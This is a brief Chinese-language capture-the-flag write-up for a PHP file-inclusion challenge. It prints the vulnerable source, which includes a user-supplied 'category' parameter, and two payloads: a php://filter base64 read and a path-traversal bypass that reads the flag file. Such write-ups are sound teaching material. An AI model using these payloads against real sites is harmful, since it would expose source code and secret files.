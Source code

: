 先 fuzz 一下，参数后面加 `'`

![fuzz](fuzz.png)

明显这里有个文件包含的洞，对应包含的文件为 `?category=xxx`，但是限定死了后缀为 `.php`，且 php 版本为 7.x，所以不能使用 `%00` 截断。在尝试之后，发现 http 远程加载也不行，最终发现伪协议可行，payload

```payload
php://filter/read=convert.base64-encode/resource=index
```

PHP 部分源码

```php
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

在参数中必须要出现 `woofers` 或 `meowers` 或 `index`，这样一来我们就不能直接读取 flag 了。尝试绕过

```payload
php://filter/read=convert.base64-encode/resource=index/../flag
```

![fuzz](flag.png)



